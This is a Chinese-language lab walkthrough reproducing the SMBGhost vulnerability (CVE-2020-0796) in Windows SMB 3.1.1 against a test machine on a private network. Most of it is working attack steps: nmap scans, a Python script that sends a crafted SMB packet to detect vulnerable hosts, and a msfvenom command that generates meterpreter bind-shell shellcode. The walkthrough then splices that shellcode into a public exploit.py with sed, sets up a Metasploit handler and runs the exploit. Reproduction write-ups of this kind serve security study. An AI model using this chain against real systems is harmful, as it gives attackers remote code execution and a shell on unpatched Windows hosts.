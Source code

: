 # Windows-永恒之黑

漏洞复现-永恒之黑(CVE-2020-0796)

**0x00 前言**

```
影响版本：
Windows 10 Version 1903 for 32-bit Systems
Windows 10 Version 1903 for ARM64-based Systems
Windows 10 Version 1903 for x64-based Systems
Windows 10 Version 1909 for 32-bit Systems
Windows 10 Version 1909 for ARM64-based Systems
Windows 10 Version 1909 for x64-based Systems
Windows Server, version 1903 (Server Core installation)
Windows Server, version 1909 (Server Core installation)
```

 Microsoft服务器消息块（SMB）协议是Microsoft Windows中使用的一项Microsoft网络文件共享协议。在大部分windows系统中都是默认开启的，用于在计算机间共享文件、打印机等。Windows 10和Windows Server 2016引入了SMB 3.1.1 。而 3.1.1 版本增加了对压缩数据的支持，但其没有正确处理压缩的数据包，在解压数据包的时候直接使用客户端传过来的长度进行解压时，并没有检查长度是否合法，最终导致整数溢出。利用该漏洞，攻击者可直接远程攻击SMB服务端远程执行任意恶意代码。



|          | 靶机                    | 攻击机         |
| -------- | ----------------------- | -------------- |
| 操作系统 | Windows 10 Version 1903 | kali           |
| IP地址   | 192.168.12.140          | 192.168.12.135 |
| 备注     | 关闭防火墙              |                |

利用到的工具：`https://github.com/root-tools/SMBGhost_RCE_PoC`



**0x01 复现**

主机发现

```
nmap -sn 192.168.12.0/24
```

端口扫描

```
nmap 192.168.12.140

PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
5357/tcp open  wsdapi
MAC Address: 00:0C:29:AE:11:85 (VMware)

```

脚本扫描

```python
import socket
import struct

ip = "192.168.12.140"  # 获取用户输入的IP
# 构造SMB消息
pkt = b'\x00\x00\x00\xc0\xfeSMB@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00$\x00\x08\x00\x01\x00\x00\x00\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00x\x00\x00\x00\x02\x00\x00\x00\x02\x02\x10\x02"\x02$\x02\x00\x03\x02\x03\x10\x03\x11\x03\x00\x00\x00\x00\x01\x00&\x00\x00\x00\x00\x00\x01\x00 \x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\n\x00\x00\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00'
sock = socket.socket(socket.AF_INET)  # 初始化socket
sock.settimeout(3)  # 设置超时时间
sock.connect((ip, 445)) # 与对应IP的445端口建立socket连接
sock.send(pkt)  # 发送消息
data, = struct.unpack(">I", sock.recv(4))
res = sock.recv(data)  # 接收socket数据包
#  判断主机是否使用SMBv3.1.1协议且支持压缩功能
if res[68:70] != b"\x11\x03" or res[70:72] != b"\x02\x00":
    print(f"{ip} 不存在该漏洞。")
else:
    print(f"检测到 {ip} 存在此漏洞。")
```

![image-20230301202918155](https://s2.loli.net/2023/03/11/Zyt3BbnsMC8hrxV.png)

生成脚本

```shell
msfvenom -p windows/x64/meterpreter/bind_tcp  LPORT=4444 -b '\x00' -f python > paylaod

# -b 去掉坏字符，坏字符会影响payload正常执行。这里去掉’\x00’，代表去除空字符。
```

将paylaod中的“buf”替换为“USER_PAYLOAD”。

```shell
sed "s/buf/USER_PAYLOAD/g" -i payload
```

将下载好的工具进行解压，使用上面修改完的payload替换掉exploit.py中的92~128行的内容。

```shell
sed "92,128 d" -i exploit.py  # 删除exploit.py文件的92行到128行
sed "92r payload" -i exploit.py  #将paylaod文件内容添加到exploit.py的92行后
```

使用msf的侦听模块exploit/multi/handler，尝试与Windows主机的4444端口进行连接。

```shell
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set lport 4444
set rhost 192.168.12.140
run
```

执行修改后的exploit.py，进行漏洞利用。

```shell
python3 exploit.py -ip 192.168.12.140
```

![image-20230301210237311](https://s2.loli.net/2023/03/11/dAO4UIn7tyRsFX8.png)